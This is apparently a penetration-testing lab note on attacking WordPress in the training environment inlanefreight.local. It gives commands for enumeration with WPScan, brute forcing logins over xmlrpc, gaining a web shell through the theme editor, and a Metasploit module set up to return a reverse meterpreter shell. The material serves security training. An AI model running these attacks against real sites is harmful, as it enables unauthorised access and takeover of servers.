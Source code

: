 # Wordpress

WordPress is an extremely common CMS. It is written in PHP and typically runs with  Apache and MySQL.

## Discovery/Enumeration

### Identify Wordpress

Robots.txt:

```
User-agent: *
Disallow: /wp-admin/
Allow: /wp-admin/admin-ajax.php
Disallow: /wp-content/uploads/wpforms/

Sitemap: https://inlanefreight.local/wp-sitemap.xml
```

The presence of /wp-admin and /wp-content directories are good indicators that the site is running wordpress.

Wappalyzer can also indicate what technologies the web app is using.

We can also look for wordpress in the source code of the page:

```shell-session
Adam-162@htb[/htb]$ curl -s http://blog.inlanefreight.local | grep WordPress

<meta name="generator" content="WordPress 5.8"  
```

### WPScan

WPScan can be used to automatically detect vulnerable plugins, themes, users, media, and backups. by retrieving a free plan API key, you can make up to 75 requests per day against the WPVulnDB to lookup vulnerabilities.&#x20;

```shell-session
Adam-162@htb[/htb]$ sudo wpscan --url http://blog.inlanefreight.local --enumerate --api-token dEOFB<SNIP>
```

### Wordpress User Accounts&#x20;

1. Administrator: This user has access to administrative features within the website. This includes adding and deleting users and posts, as well as editing source code.
2. Editor: An editor can publish and manage posts, including the posts of other users.
3. Author: They can publish and manage their own posts.
4. Contributor: These users can write and manage their own posts but cannot publish them.
5. Subscriber: These are standard users who can browse posts and edit their profiles.

Getting access to an administrator is usually sufficient to obtain code execution on the server. Editors and authors might have access to certain vulnerable plugins, which normal users don’t.

### Enumerating Users

Default Wordpress login is found at /wp-login.

Attempt a few login attempts and see if the error message indicates that a user is not registered on the site. If this is the case, we can enumerate for valid usernames.&#x20;

### Login Brute Force&#x20;

There are two methods to login brute force/password spray -&#x20;

1. /wp-login
2. /xmlrpc.php

xmlrpc is preffered if available as it is faster.&#x20;

```shell-session
Adam-162@htb[/htb]$ sudo wpscan --password-attack xmlrpc -t 20 -U john -P /usr/share/wordlists/rockyou.txt --url http://blog.inlanefreight.local
```



### Plugins/Themes

Wordpress stores its plugins in wp-content/plugins directory, and themes are stored in wp-content/themes. these should be investigated for vulnerable plugins and themes which can lead to RCE.

Once we've compiled a list of potential plugins and themes, it's crucial to check for publicly disclosed vulnerabilities associated with these components. Sites like WPScan’s Vulnerability Database can be instrumental in identifying any known security issues, helping us determine potential vectors for exploitation.

Finding Plugins:

```shell-session
Adam-162@htb[/htb]$ curl -s http://blog.inlanefreight.local/ | grep plugins

<link rel='stylesheet' id='contact-form-7-css'  href='http://blog.inlanefreight.local/wp-content/plugins/contact-form-7/includes/css/styles.css?ver=5.4.2' type='text/css' media='all' />
<script type='text/javascript' src='http://blog.inlanefreight.local/wp-content/plugins/mail-masta/lib/subscriber.js?ver=5.8' id='subscriber-js-js'></script>
<script type='text/javascript' src='http://blog.inlanefreight.local/wp-content/plugins/mail-masta/lib/jquery.validationEngine-en.js?ver=5.8' id='validation-engine-en-js'></script>
<script type='text/javascript' src='http://blog.inlanefreight.local/wp-content/plugins/mail-masta/lib/jquery.validationEngine.js?ver=5.8' id='validation-engine-js'></script>
		<link rel='stylesheet' id='mm_frontend-css'  href='http://blog.inlanefreight.local/wp-content/plugins/mail-masta/lib/css/mm_frontend.css?ver=5.8' type='text/css' media='all' />
<script type='text/javascript' src='http://blog.inlanefreight.local/wp-content/plugins/contact-form-7/includes/js/index.js?ver=5.4.2' id='contact-form-7-js'></script>
```

Identifying plugin versions:

Navigating too [http://blog.inlanefreight.local/wp-content/plugins](http://blog.inlanefreight.local/wp-content/plugins/mail-masta/)/\<plugin> and checking the readme.txt can give us information on the version of the plugin running.&#x20;

### Code Execution via Theme Editor

If you have managed to compromise an administrator account for the Wordpress installation, you can modify the PHP source code to execute system commands and possibly get a web shell or a reverse shell using the theme editor.&#x20;

Edit and save a secondary theme (as to not mess up the primary one the site is using) with our malicious code:

<figure><img src="../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

We can interact with it or execute the code by finding the edited theme page at /wp-content/themes/\<theme-name>.

Interact with it via the browser or CURL

```shell-session
Adam-162@htb[/htb]$ curl http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?0=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Code Execution via Theme Editor w/ Metasploit

You can also use metasploit to upload a malicious plugin and execute a PHP meterpreter shell.

```shell-session
msf6 > use exploit/unix/webapp/wp_admin_shell_upload 

[*] No payload configured, defaulting to php/meterpreter/reverse_tcp

msf6 exploit(unix/webapp/wp_admin_shell_upload) > set username john
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set password firebird1
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set lhost 10.10.14.15 
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set rhost 10.129.42.195  
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set VHOST blog.inlanefreight.local
```

### Exploiting Known Vulnerabilities&#x20;

Close to 90% of wordpress vulnerabilties are via Plugins. It is extremely important to collect a list of all plugins the wordpress site uses and research them for vulnerabilities.&#x20;
